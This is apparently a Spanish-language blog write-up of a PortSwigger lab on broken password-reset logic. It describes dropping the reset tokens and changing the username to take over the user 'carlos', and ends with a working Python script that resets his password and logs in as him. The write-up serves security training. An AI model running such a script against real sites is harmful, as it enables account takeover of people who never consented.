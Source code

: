 ```yaml
---
title: "03 Password reset broken logic"
collection: publications
category: portswigger
permalink: publications/Authentication/03_Password reset broken logic
excerpt: 'La funcionalidad de restablecimiento de contraseña de este laboratorio es vulnerable. Para resolver el laboratorio, restablecemos la contraseña de Carlos y luego iniciamos sesión y accedemos a su página «My account».'
date: 2024-12-04
#venue: 'Journal 1'
#slidesurl: 'http://academicpages.github.io/files/slides1.pdf'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
citation: 'Password reset broken logic'
---
```


![logo]({{site.url}}/images/Authentication/authentication-lab-03/logo.png)

## Descripción del laboratorio

![Descripción]({{site.url}}/images/Authentication/authentication-lab-03/descripcion.png)

## Objetivo del laboratorio

Para resolver el laboratorio, restablecemos la contraseña de Carlos y luego iniciamos sesión y accedemos a su página «My account».

## Vector de ataque

En esta ocación el vector de ataque va a ser `Forgor password?` de reestablecer contraseña.

![Olvidar]({{site.url}}/images/Authentication/authentication-lab-03/olvidar.png)

Reestablecemos el passwor del usuario `wiener`

![Reestablecer]({{site.url}}/images/Authentication/authentication-lab-03/reestablecer.png)

Debemos mirar el correo.

![Correo]({{site.url}}/images/Authentication/authentication-lab-03/correo.png)

E ingresamos a la URL que nos dieron.

![Link]({{site.url}}/images/Authentication/authentication-lab-03/link.png)

Ingresamos una nueva contraseña.

![Nuevo]({{site.url}}/images/Authentication/authentication-lab-03/nevo.png)

## Vulnerar

Cuando ingresamos al link y muestra la pantalla de ingresar las contraseñas nuevas. Esa petición tiene unos token temporales.

![Token]({{site.url}}/images/Authentication/authentication-lab-03/token.png)

Que pasa si le eliminamos los Token's y le cambiamos el usuario a `carlos` ?. Vemos que nos hace una redirección. Eso es buena señal.

![Peticion]({{site.url}}/images/Authentication/authentication-lab-03/peticion.png)

## Login con las credenciales cambiadas

Probamos a ver si se realizo el cambio del password.

![Login]({{site.url}}/images/Authentication/authentication-lab-03/login.png)

## Aprobado

![Aprobado]({{site.url}}/images/Authentication/authentication-lab-03/aprobado.png)

# Codigo Python
```python
import requests
import sys
import urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def access_carlos_account(s, url):

    # Reset Carlos's password
    print("(+) Resetting Carlos's password...")
    password_reset_url = url + "/forgot-password?temp-forgot-password-token=x"
    password_reset_data = {"temp-forgot-password-token": "x", "username": "carlos", "new-password-1": "password", "new-password-2": "password"}
    r = s.post(password_reset_url, data=password_reset_data, verify=False, proxies=proxies)

    # Access Carlos's account
    print("(+) Logging into Carlos's account...")
    login_url = url + "/login"
    login_data = {"username": "carlos", "password": "password"}
    r = s.post(login_url, data=login_data, verify=False, proxies=proxies)

    # Confirm exploit worked
    if "Log out" in r.text:
        print("(+) Successfully logged into Carlos's account.")
    else:
        print("(-) Exploit failed.")
        sys.exit(-1)

def main():
    if len(sys.argv) != 2:
        print("(+) Usage: %s <url>" % sys.argv[0])
        print("(+) Example: %s www.example.com" % sys.argv[0])
        sys.exit(-1)
    
    s = requests.Session()
    url = sys.argv[1]
    access_carlos_account(s, url)

if __name__ == "__main__":
    main()
```